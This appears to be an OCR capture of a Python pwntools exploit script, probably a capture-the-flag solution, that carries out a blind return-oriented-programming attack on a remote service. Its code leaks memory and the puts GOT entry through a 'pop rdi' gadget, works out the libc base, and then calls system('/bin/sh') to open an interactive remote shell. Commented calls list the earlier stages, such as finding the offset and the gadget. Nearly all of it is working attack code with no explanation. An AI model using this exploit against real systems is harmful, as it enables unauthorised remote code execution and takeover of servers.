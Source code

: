 ```py
    for x in l:
        io = pwn.remote(HOST, PORT, level='critical')
        payload = b'A'*OFFSET
        payload += pwn.p64(BROP_GADGET + 9)  # pop rdi
        payload += pwn.p64(x)
        payload += pwn.p64(CALL_PUTS)
        io.recvuntil(b"?\n")
        io.send(payload)
        mssg = io.recvall().strip()
        mssg = mssg[0:8]
        mssg = pwn.unpack(mssg, 'all')
        pwn.log.success("QWORD @ Memory -" + hex(x) + ": " + hex(mssg))
        io.close()


def exploit():
    io = pwn.remote(HOST, PORT)
    payload = b'A'*OFFSET
    payload += pwn.p64(BROP_GADGET + 9)  # pop rdi
    payload += pwn.p64(PUTS_GOT)
    payload += pwn.p64(CALL_PUTS)
    payload += pwn.p64(LOOPBACK_FUNC)
    io.recvuntil(b"?\n")
    io.send(payload)
    leak = io.recvline().strip()
    leak = pwn.unpack(leak, 'all')
    pwn.log.success("Puts Leak: " + hex(leak))
    libc.address = leak - libc.symbols['puts']
    pwn.log.success("Libc Address: " + hex(libc.address))
    io.recvuntil(b"?\n")
    binsh = next(libc.search(b'/bin/sh\0'))
    payload = b'A'*OFFSET
    payload += pwn.p64(BROP_GADGET + 9)  # pop rdi
    payload += pwn.p64(binsh)
    payload += pwn.p64(libc.sym['system'])
    io.send(payload)
    io.interactive()


if __name__ == "__main__":
    # len = GetRipOffset()
    # print(BruteRip())
    # ScanText()
    # print(FindBropGadget())
    # CheckBROP()
    # print(FindLeakFunc())
    # LeakELF()
    # LeakGOT()
    #scanQWORD([0x600000, 0x600288, 0x600ef0, #0x601010, 0x601018,
              0x601020, 0x601028, 0x601030, 0x601038, 0x601070, 0x601080])
    exploit()
    # Test()
```